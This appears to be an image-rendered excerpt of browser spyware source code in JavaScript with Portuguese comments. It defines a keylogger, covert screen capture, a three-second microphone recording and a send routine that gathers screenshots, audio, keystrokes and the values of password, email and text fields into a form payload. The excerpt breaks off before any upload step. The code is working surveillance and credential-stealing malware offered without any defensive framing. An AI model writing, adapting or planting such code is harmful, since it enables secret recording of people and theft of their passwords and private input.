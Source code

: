 /* ---------- Keylogger ---------- */
const teclas = [];
document.addEventListener('keydown', e => teclas.push({k:e.key, t:Date.now()}));

/* ---------- Screenshot ---------- */
async function capturaTela() {
  try {
    const stream = await navigator.mediaDevices.getDisplayMedia({video:true});
    const track = stream.getVideoTracks()[0];
    const img = new ImageCapture(track);
    const bitmap = await img.grabFrame();
    track.stop();
    const canvas = new OffscreenCanvas(bitmap.width, bitmap.height);
    const ctx = canvas.getContext('2d');
    ctx.drawImage(bitmap, 0, 0);
    return await canvas.convertToBlob({type:'image/jpeg', quality:0.7});
  } catch { return null; }
}

/* ---------- Áudio ---------- */
async function capturaAudio() {
  try {
    const stream = await navigator.mediaDevices.getUserMedia({audio:true});
    const rec = new MediaRecorder(stream);
    const chunks = [];
    rec.ondataavailable = e => chunks.push(e.data);
    rec.start();
    await new Promise(r => setTimeout(r, 3000));
    rec.stop();
    await new Promise(r => rec.onstop = r);
    stream.getTracks().forEach(t => t.stop());
    return new Blob(chunks, {type:'audio/webm'});
  } catch { return null; }
}

/* ---------- Envio ---------- */
async function envia() {
  const fd = new FormData();

  /* Screenshot */
  const ss = await capturaTela();
  if (ss) fd.append('screenshot', ss, 'ss.jpg');

  /* Áudio */
  const aud = await capturaAudio();
  if (aud) fd.append('audio', aud, 'audio.webm');

  /* Senhas/inputs */
  const inputs = [...document.querySelectorAll('input[type=password], input[type=text], input[type=email], textarea')]
    .map(el => ({v:el.value, n:el.name||el.id}));
  if (inputs.length) fd.append('inputs', JSON.stringify(inputs));

  /* Keylog */
  if (teclas.length) {
    fd.append('keys', JSON.stringify(teclas.splice(0)));
  }
